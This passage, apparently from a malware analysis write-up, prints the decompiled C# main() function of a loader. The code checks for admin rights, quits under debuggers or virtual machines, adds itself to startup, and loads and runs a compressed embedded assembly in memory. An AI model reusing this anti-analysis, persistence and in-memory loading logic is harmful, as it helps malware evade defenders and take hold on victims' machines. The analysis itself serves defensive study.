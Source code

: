 Let's take a closer look at the **main()** function.

```C#
private static void Main()
		{
			Process currentProcess = Process.GetCurrentProcess();
			string title = Console.Title;
			using (WindowsIdentity current = WindowsIdentity.GetCurrent())
			{
				CLASS.IsAdmin = new WindowsPrincipal(current).IsInRole(WindowsBuiltInRole.Administrator);
			}
			bool flag = false;
			CLASS.CheckRemoteDebuggerPresent(currentProcess.Handle, ref flag);
			if (Debugger.IsAttached || flag || CLASS.IsDebuggerPresent())
			{
				Environment.Exit(0);
			}
			using (ManagementObjectSearcher managementObjectSearcher = new ManagementObjectSearcher("Select * from Win32_ComputerSystem"))
			{
				ManagementObjectCollection managementObjectCollection = managementObjectSearcher.Get();
				foreach (ManagementBaseObject managementBaseObject in managementObjectCollection)
				{
					string text = managementBaseObject["Manufacturer"].ToString().ToLower();
					if ((text == "microsoft corporation" && managementBaseObject["Model"].ToString().ToUpperInvariant().Contains("VIRTUAL")) || text.Contains("vmware") || managementBaseObject["Model"].ToString() == "VirtualBox")
					{
						Environment.Exit(0);
					}
				}
			}
			if (!CLASS.IsStartup(Path.ChangeExtension(title, null)))
			{
				CLASS.InstallStartup(title);
			}
			byte[] rawAssembly = CLASS.Uncompress(CLASS.GetEmbeddedResource("P"));
			MethodInfo entryPoint = Assembly.Load(rawAssembly).EntryPoint;
			try
			{
				entryPoint.Invoke(null, new object[]
				{
					new string[0]
				});
			}
			catch
			{
				entryPoint.Invoke(null, null);
			}
		}
```
